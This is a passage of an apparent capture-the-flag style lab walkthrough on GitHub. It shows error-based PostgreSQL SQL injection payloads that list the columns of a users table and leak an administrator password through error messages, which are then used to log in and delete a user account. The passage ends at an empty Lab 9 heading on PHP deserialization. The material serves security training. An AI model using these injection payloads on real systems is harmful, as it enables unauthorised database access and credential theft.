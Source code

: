 

<img width="1903" height="732" alt="image" src="https://github.com/user-attachments/assets/8fc3de1d-4106-4383-8363-b33615585821" />






## Column name
**payload1** — `' UNION SELECT NULL,NULL,NULL,NULL,CAST(column_name AS numeric),null,null,null from information_schema.columns where table_name = 'users' --`
**Error in response1** — `<p class=is-warning>org.apache.commons.lang3.SerializationException: java.io.IOException: org.postgresql.util.PSQLException: ERROR: invalid input syntax for type numeric: &quot;username&quot;</p>`
**payload2** — `'UNION SELECT NULL,NULL,NULL,NULL,CAST(column_name AS numeric),null,null,null from information_schema.columns where table_name = 'users' and column_name !='username'--`
**Error in response2** — `<p class=is-warning>org.apache.commons.lang3.SerializationException: java.io.IOException: org.postgresql.util.PSQLException: ERROR: invalid input syntax for type numeric: &quot;password&quot;</p>`
now that we know the table name and column names we can extract the password of the user administrator.
### Extracting administrator password
**payload** — `'UNION SELECT NULL,NULL,NULL,NULL,CAST(password AS numeric),null,null,null from users where username='administrator' --`
**error in response** — `<p class=is-warning>org.apache.commons.lang3.SerializationException: java.io.IOException: org.postgresql.util.PSQLException: ERROR: invalid input syntax for type numeric: &quot;albhslljyvji9rxzbill&quot;</p>`


<img width="1920" height="742" alt="image" src="https://github.com/user-attachments/assets/41a030f4-f4e2-4645-8e14-f9116f1ff71f" />




Now we can login as administrator and delete the carlos account to solve the lab.



<img width="1828" height="651" alt="image" src="https://github.com/user-attachments/assets/701e973d-44a8-4230-a7ea-3206d439aa38" />


By carefully studying the source code, you can discover longer gadget chains that potentially allow you to construct high-severity attacks, often including remote code execution.



---

### LAB 9 - Developing a custom gadget chain for PHP deserialization

### Lab Description

<img width="883" height="512" alt="image" src="https://github.com/user-attachments/assets/954a223a-b837-4359-9fbf-1911a4f0cc08" />

### Solution

